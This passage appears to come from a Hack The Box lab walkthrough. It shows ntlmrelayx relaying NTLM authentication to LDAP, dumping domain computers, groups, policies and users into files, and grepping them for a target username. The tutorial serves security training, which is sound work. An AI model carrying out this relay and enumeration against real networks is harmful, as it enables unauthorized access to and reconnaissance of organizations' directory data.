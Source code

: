 ```shell-session
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
```

Once they have started `ntlmrelayx`, students will notice that one of the relayed authentications was able to do an enumeration on the domain and dump the information in the working directory where `ntlmrelayx` was started.

```shell-session
<SNIP>
[*] HTTPD(80): Authenticating against [ldap://172.16.117.3](ldap://172.16.117.3) as INLANEFREIGHT/CJAQ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] SMBD-Thread-12: Connection from 172.16.117.50 controlled, but there are no more targets left!
[*] SMBD-Thread-13: Connection from 172.16.117.50 controlled, but there are no more targets left!
[*] Domain info dumped into lootdir!
```

Right after the domain info has been dumped, students will have to terminate `ntlmrelayx` by using the key combination `Ctrl + C`. By listing their current working directory, students will notice that a few files were generated that hold information about the domain such as computers, groups, policies, and users, in various file formats such as `json`, `grep`, and `html`.

Code: shell

```shell
ls
```

```shell-session
htb-student@ubuntu:~$ ls

Desktop    Videos                       domain_groups.json  domain_users.grep
Documents  domain_computers.grep        domain_policy.grep  domain_users.html
Downloads  domain_computers.html        domain_policy.html  domain_users.json
Music      domain_computers.json        domain_policy.json  domain_users_by_group.html
Pictures   domain_computers_by_os.html  domain_trusts.grep  go
Public     domain_groups.grep           domain_trusts.html  thinclient_drives
Templates  domain_groups.html           domain_trusts.json  tools
```

Students will have to use `grep` with the `-i` option to ignore case distinctions in patterns and data, `cut` with the `-d` option to specify the delimiter and the `-f` to specify the field, and `awk` to print only the first column of the search. Right after the students have run the command(s), they will get the username that contains `prototype` in itself.

Code: shell

```shell
grep -i 'prototype' domain_users.grep | cut -d ' ' -f1 | awk '{print $1}'
```

```shell-session
htb-student@ubuntu:~$ grep -i 'prototype' domain_users.grep | cut -d ' ' -f1 | awk '{print $1}'

prototypeproject
```

